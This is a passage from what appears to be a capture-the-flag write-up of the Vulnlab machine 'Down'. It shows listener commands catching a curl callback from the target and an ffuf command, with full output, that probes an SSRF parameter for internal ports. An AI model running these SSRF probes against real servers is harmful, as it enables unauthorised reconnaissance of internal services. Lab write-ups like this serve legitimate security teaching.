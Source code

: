```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Down/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.82.230 - - [19/Sep/2024 20:04:46] code 404, message File not found
10.10.82.230 - - [19/Sep/2024 20:04:46] "GET /x HTTP/1.1" 404 -
```

We also started `Netcat` to have a quick look onto the `response` and noticed that the `web server` used `curl/7.81.0` to reach out.

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnkvp 80
listening on [any] 80 ...
connect to [10.8.0.2] from (UNKNOWN) [10.10.114.88] 44314
GET / HTTP/1.1
Host: 10.8.0.2
User-Agent: curl/7.81.0
Accept: */*
```

## Server-Side Request Forgery (SSRF)

First thing we checked after we noticed that the website would reached out to us was `Server-Side Request Forgery (SSRF)` to see if we could `access` any `resources` which should `only available locally`. Our man `carnifex17` put together the command for `ffuf` to enumerate any available ports, but we only found port `80/TCP`.

```c
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://10.10.82.230/index.php -X POST -d 'url=http%3A%2F%2Flocalhost%3AFUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 836

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.82.230/index.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : url=http%3A%2F%2Flocalhost%3AFUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 836
________________________________________________

80                      [Status: 200, Size: 1961, Words: 271, Lines: 54, Duration: 493ms]
:: Progress: [38267/38267] :: Job [1/1] :: 89 req/sec :: Duration: [0:07:12] :: Errors: 0 ::
```
